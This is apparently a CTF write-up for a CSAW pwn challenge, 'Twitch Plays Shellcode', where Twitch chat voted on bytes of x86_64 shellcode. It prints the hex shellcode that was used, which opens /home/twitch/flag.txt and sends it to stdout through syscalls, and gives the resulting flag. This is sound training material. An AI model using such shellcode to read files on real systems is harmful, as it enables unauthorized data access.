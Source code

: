 # Twitch Plays Shellcode

- Category: PWN
- Points: 100

## Challenge

### Description
> Flag is in /home/twitch/flag.txt We'll jump into your shellcode and output 1024 bytes of stdout twitch.tv/csawtv

### Twitch.tv

On Twitch we have more instructions

> Flag is in /home/twitch/flag.txt
> After the number of rounds you vote for, we'll output the next 1024 bytes of stdout to the screen. This is x86_64 bit shellcode.

> ALL VOTES MUST BE NUMERIC
> VOTE FOR THE ROW, THE COLUMN, and then the VALUE on your page you want to change


## Solution

With all the information in mind first we need to come up with some shellcode to input. Thanks to zero_fiber for leading the charge in the chat. We used: 
> > 48 b8 01 01 01 01 01 01 01 01 50 48 b8 66 2f 75 79 75 01 01 01 48 31 04 24 eb 31 69 74 63 68 2f 66 6c 61 50 48 b8 2f 68 6f 6d 65 2f 74 77 50 6a 02 58 48 89 e7 31 f6 99 0f 05 41 ba ff ff ff ff 7f 48 89 c6 6a 28 58 6a 01 5f 99 0f 05 48 b8 69 74 63 68 2f 66 6c 61 eb cb 

Which translates to
> > Put /home/twitch/flag.txt On the stack
> > Open the File (syscall 2)
> > Send the File (syscall 40)

Then on the next execution we get the flag

![twitch](twitch.jpg)

### Flag

`flag{https://www.youtube.com/watch?v=pGFGD5pj03M}`
